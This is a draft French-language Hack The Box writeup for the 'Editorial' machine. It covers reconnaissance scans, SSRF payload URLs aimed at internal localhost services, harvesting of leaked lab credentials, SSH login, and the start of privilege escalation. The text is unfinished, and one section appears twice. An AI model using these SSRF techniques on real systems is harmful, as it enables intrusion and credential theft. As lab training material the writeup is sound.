

---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Editorial — HTB Easy Writeup & Walkthrough"
linkTitle: "Editorial"
slug: "editorial"
date: 2026-05-26T17:29:08+02:00
#lastmod: 2026-05-26T17:29:08+02:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Summary générique de machine CTF"
description: "Description générique de machine CTF"
tags: ["Hack The Box","HTB Easy","linux-privesc"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Editorial"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Editorial"
  difficulty: "Easy | Medium | Hard"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Editorial> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

- Contexte (source, thème, objectif).
- Hypothèses initiales (services attendus, techno probable).
- Objectifs : obtenir `user.txt` puis `root.txt`.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt editorial.htb
Nmap scan report for editorial.htb (10.129.x.x)
Host is up (0.0090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 7.99 seconds
```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : editorial.htb
# Date   : [data]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour editorial.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "editorial.htb"

# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt editorial.htb
Nmap scan report for editorial.htb (10.129.x.x)
Host is up (0.015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   61.03 ms 10.10.x.1
2   7.51 ms  editorial.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 10.19 seconds
 nmap -Pn -A -sV -p"22,2222,8080,35627,42277" --script="http-vuln-*,http-shellshock,http-sql-injection,ssl-cert,ssl-heartbleed,sslv2,ssl-dh-params" --script-timeout=30s -T4 "editorial.htb"
```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.99 scan initiated {[date]} as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt editorial.htb
Nmap scan report for editorial.htb (10.129.x.x)
Host is up (0.014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 3
|     /static/css/
|       css: 1
|     /static/images/
|       jpeg: 1; jpg: 2
|   Longest directory structure:
|     Depth: 2
|     Dir: /static/images/
|   Total files found (by extension):
|_    Other: 3; css: 1; jpeg: 1; jpg: 2
|_http-title: Editorial Tiempo Arriba
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-headers: 
|   Server: nginx/1.18.0 (Ubuntu)
|   Date: [date]
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 8577
|   Connection: close
|   
|_  (Request type: HEAD)
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 37.36 seconds

```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt editorial.htb
Nmap scan report for editorial.htb (10.129.x.x)
Host is up (0.012s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   open|filtered netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 8.13 seconds


```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

```bash
mon-recoweb editorial.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt`  regroupe les chemins découverts, sans parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.3

Cible        : editorial.htb
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://editorial.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/editorial.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://editorial.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/editorial.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/editorial.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://editorial.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/editorial.htb/ffuf_files.json 2>&1 | tee scans_recoweb/editorial.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://editorial.htb/about (CODE:200|SIZE:2939)
http://editorial.htb/about/ (CODE:200|SIZE:2939)
http://editorial.htb/upload (CODE:200|SIZE:7140)
http://editorial.htb/upload/ (CODE:200|SIZE:7140)

=== Détails par outil ===

[DIRB]
http://editorial.htb/about (CODE:200|SIZE:2939)
http://editorial.htb/upload (CODE:200|SIZE:7140)

[FFUF — DIRECTORIES]
http://editorial.htb/about/ (CODE:200|SIZE:2939)
http://editorial.htb/upload/ (CODE:200|SIZE:7140)

[FFUF — FILES]

```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
=== mon-subdomains editorial.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.1
Date         : [date]
Domaine      : editorial.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=301 size=178 words=12 (Host=do18sxxyud.editorial.htb)
  Baseline#2: code=301 size=178 words=12 (Host=24ohzw4lfu.editorial.htb)
  Baseline#3: code=301 size=178 words=12 (Host=s4friiwds1.editorial.htb)
  After-redirect#1: code=200 size=8577 words=589
  After-redirect#2: code=200 size=8577 words=589
  After-redirect#3: code=200 size=8577 words=589
  VHOST (0)
    - (aucun)


=== mon-subdomains editorial.htb END ===


```

Si aucun vhost distinct n’est identifié, ce fichier confirme l’absence de résultats supplémentaires.

## Prise pied

L’énumération web a montré que la page `/upload/` permet de proposer un livre à la plateforme Editorial.



La page contient plusieurs champs classiques : nom du livre, description, raison du choix de l’éditeur, email et téléphone de contact.

Mais le point le plus intéressant se trouve en haut du formulaire : l’application permet de fournir une **URL de couverture** dans le champ `Cover URL related to your book or...`.

Ce fonctionnement mérite d’être testé attentivement.

En effet, lorsqu’une application accepte une URL fournie par l’utilisateur, puis tente elle-même de récupérer la ressource distante, il faut envisager une vulnérabilité de type **SSRF**.

> Une SSRF permet de forcer le serveur web à effectuer une requête HTTP à ta place, parfois vers des services internes normalement inaccessibles depuis l’extérieur.

Ici, l’objectif est donc de vérifier si le serveur Editorial va réellement contacter l’URL que tu fournis dans le champ de couverture.

### Test du chargement d’une image distante

Pour commencer, tu peux vérifier le comportement normal attendu.

Depuis ton Kali, tu prépares une image de test dans un répertoire accessible, puis tu l’exposes avec un petit serveur HTTP :

```bash
python3 -m http.server 8000
```

Ensuite, dans le champ `Cover URL`, tu indiques une URL pointant vers ton Kali :

```url
http://10.10.1x.x:8000/test.jpg
```

Tu cliques ensuite sur le bouton **Preview**.

Si l’application tente de récupérer l’image, ton serveur HTTP sur Kali reçoit une requête. Cela confirme que ce n’est pas ton navigateur qui va directement chercher l’image, mais bien le serveur web distant.

Une fois l’aperçu généré, tu peux cliquer sur l’image affichée puis choisir **Open Image in New Tab** dans le navigateur.

Cette étape est pratique pour deux raisons :

- elle permet de confirmer que l’image a bien été récupérée par l’application ;
- elle permet de sauvegarder localement le fichier généré ou renvoyé par le serveur sur ton Kali pour l’analyser plus facilement.

À ce stade, le comportement observé est compatible avec une SSRF : l’application accepte une URL externe, la traite côté serveur, puis renvoie le résultat dans la page.

### Recherche de services internes

Maintenant que le comportement SSRF est confirmé, tu peux détourner le mécanisme de prévisualisation de couverture pour interroger des services accessibles depuis la machine cible elle-même.

L’idée est simple : au lieu de demander au serveur Editorial d’aller chercher une image sur ton Kali, tu lui demandes d’aller interroger une adresse locale comme `127.0.0.1`.

Depuis l’extérieur, Nmap ne montre que les ports exposés publiquement. Mais une application web peut aussi communiquer avec des services internes, uniquement accessibles en local depuis la machine.

Tu peux donc tester des URLs de ce type dans le champ `Cover URL` :

```url
http://127.0.0.1/
http://127.0.0.1:5000/
http://127.0.0.1:8000/
http://localhost:5000/
http://localhost:8000/
```

Tu commences par le port `5000`, car il est très souvent utilisé par des applications web internes, notamment des applications Python avec Flask ou Werkzeug.

Dans le contexte d’une application web, c’est donc un excellent premier candidat à tester lorsqu’une SSRF permet d’interroger `127.0.0.1`.

Dans le champ `Cover URL`, tu indiques par exemple :

```url
http://127.0.0.1:5000/
```

Puis tu cliques sur **Preview**.

Si le serveur interne répond, l’application Editorial récupère la réponse à ta place et l’affiche sous forme de prévisualisation. Tu peux ensuite cliquer sur l’image ou le résultat affiché, puis choisir **Open Image in New Tab** pour ouvrir directement la ressource générée dans un nouvel onglet.

Cette méthode permet de mieux observer la réponse renvoyée par le service interne, et éventuellement de sauvegarder le résultat sur ton Kali pour l’analyser plus confortablement.

Le test sur `127.0.0.1:5000` renvoie justement une réponse intéressante : au lieu d’une simple image, tu obtiens une réponse JSON contenant des informations sur une API interne.

Ce résultat confirme deux choses importantes :

- un service web interne écoute bien sur le port `5000` ;
- ce service n’est pas directement exposé depuis l’extérieur, mais il devient accessible grâce à la SSRF.

À ce stade, la SSRF devient réellement exploitable. Elle ne sert plus seulement à prouver que le serveur peut charger une URL distante : elle permet maintenant de cartographier une surface d’attaque interne normalement invisible.

### Recherche de services internes

Maintenant que le comportement SSRF est confirmé, tu peux détourner le mécanisme de prévisualisation de couverture pour interroger des services accessibles depuis la machine cible elle-même.

L’idée est simple : au lieu de demander au serveur Editorial d’aller chercher une image sur ton Kali, tu lui demandes d’aller interroger une adresse locale comme `127.0.0.1`.

Depuis l’extérieur, Nmap ne montre que les ports exposés publiquement. Mais une application web peut aussi communiquer avec des services internes, uniquement accessibles en local depuis la machine.

Tu peux donc tester des URLs de ce type dans le champ `Cover URL` :

```url
http://127.0.0.1/
http://127.0.0.1:5000/
http://127.0.0.1:8000/
http://localhost:5000/
http://localhost:8000/
```

Tu commences par le port `5000`, car il est très souvent utilisé par des applications web internes, notamment des applications Python avec Flask ou Werkzeug.

Dans le contexte d’une application web, c’est donc un excellent premier candidat à tester lorsqu’une SSRF permet d’interroger `127.0.0.1`.

Dans le champ `Cover URL`, tu indiques par exemple :

```url
http://127.0.0.1:5000/
```

Puis tu cliques sur **Preview**.

Si le serveur interne répond, l’application Editorial récupère la réponse à ta place et l’affiche sous forme de prévisualisation. Tu peux ensuite cliquer sur le résultat affiché, puis choisir **Open Image in New Tab** pour ouvrir directement la ressource générée dans un nouvel onglet.

Cette méthode permet de mieux observer la réponse renvoyée par le service interne, et éventuellement de sauvegarder le résultat sur ton Kali pour l’analyser plus confortablement.

Dans ce cas, le test sur `127.0.0.1:5000` renvoie une réponse JSON :

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Ce résultat confirme deux choses importantes :

- un service web interne écoute bien sur le port `5000` ;
- ce service expose une API interne qui n’est pas directement accessible depuis l’extérieur.

La SSRF devient donc réellement exploitable. Elle ne sert plus seulement à prouver que le serveur peut charger une URL distante : elle permet maintenant de cartographier une surface d’attaque interne normalement invisible.

### Découverte de l’API interne

La réponse obtenue sur `127.0.0.1:5000` ressemble à une documentation minimale de l’API.

Elle ne donne pas encore directement un secret ou un identifiant, mais elle fournit plusieurs routes internes à tester avec la même méthode SSRF.

Les endpoints les plus intéressants sont :

```text
/api/latest/metadata/messages/promos
/api/latest/metadata/messages/coupons
/api/latest/metadata/messages/authors
/api/latest/metadata/messages/how_to_use_platform
/api/latest/metadata/changelog
/api/latest/metadata
```

À partir de là, tu peux reprendre exactement le même principe : placer une URL interne complète dans le champ `Cover URL`, cliquer sur **Preview**, puis ouvrir le résultat dans un nouvel onglet.

Par exemple :

```url
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

ou encore :

```url
http://127.0.0.1:5000/api/latest/metadata/changelog
```

L’objectif est d’identifier une route qui révèle plus d’informations que prévu : message interne, fichier de configuration, note de développement, identifiant oublié ou indication sur une autre ressource à explorer.

Dans ce type de scénario, il faut lire chaque endpoint comme une petite pièce du puzzle. Les routes `promos` ou `coupons` peuvent sembler peu sensibles, mais les routes liées aux auteurs, à l’utilisation de la plateforme ou au changelog sont souvent plus intéressantes, car elles peuvent contenir des informations de développement ou des messages internes.

### Récupération d’identifiants via l’endpoint authors

Parmi les endpoints découverts, la route liée aux nouveaux auteurs mérite une attention particulière :

```url
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

Tu la testes donc avec la même méthode que précédemment : tu places cette URL dans le champ `Cover URL`, tu cliques sur **Preview**, puis tu ouvres le résultat dans un nouvel onglet avec **Open Image in New Tab**.

Cette fois, la réponse obtenue est beaucoup plus sensible :

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

La réponse contient un modèle de message de bienvenue destiné aux nouveaux auteurs. Le problème est que ce modèle inclut des identifiants en clair :

```text
Username: dev
Password: dev080217_devAPI!@
```

Cette information confirme que l’API interne ne devrait pas être accessible depuis l’extérieur. Elle contient des données prévues pour un usage interne, mais la SSRF permet de les récupérer indirectement.

À ce stade, la vulnérabilité SSRF a donc permis de passer de :

```text
champ URL public
→ requête serveur vers 127.0.0.1
→ API interne sur le port 5000
→ endpoint authors
→ identifiants dev
```

Ces identifiants doivent maintenant être testés sur les services accessibles depuis l’extérieur, en particulier SSH puisque le port 22 est ouvert.

### Connexion SSH avec l’utilisateur dev

Les identifiants récupérés via l’API interne peuvent maintenant être testés sur les services exposés par la machine.

Comme le port SSH est ouvert, tu tentes une connexion avec l’utilisateur `dev` :

```bash
ssh dev@editorial.htb
```

Avec le mot de passe récupéré dans l’endpoint `authors`, la connexion réussit :

```bash
dev@editorial.htb's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-107-generic x86_64)
```

Tu obtiens alors un premier accès utilisateur sur la machine :

```bash
dev@editorial:~$ id
uid=1001(dev) gid=1001(dev) groups=1001(dev)
```

La prise pied est donc obtenue.  
La SSRF a permis d’accéder à une API interne, puis de récupérer des identifiants SSH valides pour l’utilisateur `dev`.


### user.txt

Une fois connecté, tu commences par observer le contenu du répertoire personnel de `dev` :

```bash
dev@editorial:~$ ls -la
```

```bash
drwxr-x--- 4 dev  dev  4096 May 27 16:20 .
drwxr-xr-x 4 root root 4096 Jun  5  2024 ..
drwxrwxr-x 3 dev  dev  4096 Jun  5  2024 apps
lrwxrwxrwx 1 root root    9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan  6  2022 .bashrc
drwx------ 2 dev  dev  4096 Jun  5  2024 .cache
-rw------- 1 dev  dev    20 May 27 16:20 .lesshst
-rw-r--r-- 1 dev  dev   807 Jan  6  2022 .profile
-rw-r----- 1 root dev    33 May 27 09:40 user.txt
```

Depuis la session SSH obtenue avec l’utilisateur `dev`, tu peux lire le flag utilisateur :

```bash
dev@editorial:~$ cat user.txt
94aexxxxxxxxxxxxxxxxxxxxxxxxb415
```

Tu as maintenant terminé la prise pied : la vulnérabilité SSRF a permis d’accéder à une API locale, puis à des informations de développement sensibles, jusqu’à l’obtention d’un accès SSH valide sur la machine.


---

## Escalade de privilèges



### Exploration du contexte utilisateur

Une fois le flag utilisateur récupéré, tu ne disposes pas encore de privilèges élevés sur la machine.

L’étape suivante consiste donc à explorer le contexte de l’utilisateur `dev` afin d’identifier des fichiers, dépôts, scripts ou configurations pouvant révéler une piste vers un autre utilisateur ou vers `root`.

Dans son répertoire personnel, la présence du dossier `apps` attire l’attention :

```bash
dev@editorial:~$ ls -la
```

```
drwxr-x--- 4 dev  dev  4096 May 27 16:20 .
drwxr-xr-x 4 root root 4096 Jun  5  2024 ..
drwxrwxr-x 3 dev  dev  4096 Jun  5  2024 apps
lrwxrwxrwx 1 root root    9 Feb  6  2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev  dev   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 dev  dev  3771 Jan  6  2022 .bashrc
drwx------ 2 dev  dev  4096 Jun  5  2024 .cache
-rw------- 1 dev  dev    20 May 27 16:20 .lesshst
-rw-r--r-- 1 dev  dev   807 Jan  6  2022 .profile
-rw-r----- 1 root dev    33 May 27 09:40 user.txt
```

Le nom `apps` est cohérent avec le contexte de la machine : tu viens d’exploiter une application web et une API interne. Il est donc logique de vérifier si ce répertoire contient du code applicatif, des fichiers de configuration ou des traces de développement.

Tu entres dans le répertoire :

```
cd apps
```

### Découverte du dépôt Git

Dans le répertoire `apps`, tu remarques la présence d’un dépôt Git :

```
dev@editorial:~/apps$ ls -la
drwxrwxr-x 3 dev dev 4096 Jun  5  2024 .
drwxr-x--- 4 dev dev 4096 May 27 16:20 ..
drwxrwxr-x 8 dev dev 4096 Jun  5  2024 .git
```

C’est un élément important.

Un répertoire `.git` contient l’historique d’un dépôt Git : commits, branches, messages, anciennes versions de fichiers et parfois des informations supprimées de la version actuelle du projet.

Dans un contexte de CTF, mais aussi dans un audit réel, c’est une piste classique : un mot de passe ou un secret peut avoir été supprimé du code actuel, tout en restant présent dans un ancien commit.

Pour travailler plus confortablement, tu peux cloner le dépôt sur ton Kali plutôt que de l’analyser directement sur la machine cible.

L’objectif est d’obtenir une copie locale du dépôt afin de pouvoir utiliser tranquillement les commandes Git depuis Kali, sans modifier les fichiers présents dans le répertoire de l’utilisateur `dev`.

### Clonage du dépôt apps sur Kali

Depuis ton Kali, tu peux cloner le dépôt distant en passant par SSH :

```
git clone ssh://dev@editorial.htb/home/dev/apps apps_editorial
```

Le dernier argument, `apps_editorial`, est simplement le nom du dossier local créé sur Kali.

Ce nom ne vient pas de la machine cible. Il sert uniquement à ranger proprement la copie du dépôt `apps` récupéré depuis Editorial.

Après avoir saisi le mot de passe de l’utilisateur `dev`, Git récupère le dépôt :

```
Cloning into 'apps_editorial'...
dev@editorial.htb's password:
remote: Enumerating objects: ...
remote: Counting objects: ...
remote: Compressing objects: ...
Receiving objects: ...
Resolving deltas: ...
```

